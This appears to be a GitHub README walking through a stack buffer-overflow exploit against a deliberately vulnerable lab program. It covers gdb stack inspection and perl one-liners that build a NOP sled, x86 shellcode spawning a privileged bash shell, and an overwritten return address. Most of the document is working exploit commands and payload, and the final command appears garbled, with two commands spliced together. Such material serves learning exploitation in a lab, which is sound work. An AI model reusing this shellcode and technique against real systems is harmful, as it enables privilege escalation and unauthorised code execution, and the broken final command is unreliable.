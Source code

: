 
# BOF Attack demo


## step1: 
firstly we need to run the vuln with the gdb environment: 
```bash
gdb vuln
```
we need to dicover the layout of the stack so we need firstly to define a breakpoint then we need to define a telescope function to see the content of the stack every time 

```bash 
b 21 // the line just before the vuln instruction 
define hook-stop 
 >x/40x $esp
 >end
```
then we need to see the changes in the memory based on this input 

```Bash
r `perl -e 'print 40x"A"'`
n
n
```
we notice here some special values that we have an interest to overwrite them, after reading the vuln source code we notice that we need to bypass the if statement related to the size as well as the uid 
we can put as a length 3 for example, the most important that we want to inject a shellcode

I've found this in the internet 
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80

I can just add it to my input and adjust the padding so I can overwrite this perfectly and then we need to modify the return address to sth point to the shellcode 

in my case this is the input that fulfill all the requirements above 
``` bash 
perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\xc0\xdf\x9e\xff" . "\x4a\xf8" . "\x03"x7'
```


## step2

we need to fit the output above to the real C environment and we need as well to execute it with the runner 
``` bash 
env - gdb runner 
``` 
and then we need to execute the following commands 
```gdb
unset env LINES 
unset env COLUMNS 
b 24 
define hook-stop
>p/x $esp 
>end
r `perl -e 'print 130x"A"'`
n
```

then we store the address of the esp 


after obtaining the real esp we need to calculate the offset which is the new_esp - old_esp 

then we add this value to the last return address and run the command 

in my case this is the final input 

```bash
perl -e 'print "\x90"x15 . env - PWD=$PWD ./runner `perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\
x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\x90\x45\xcb\xff" . "\xa3\x86" . "\x03"x7'`
```

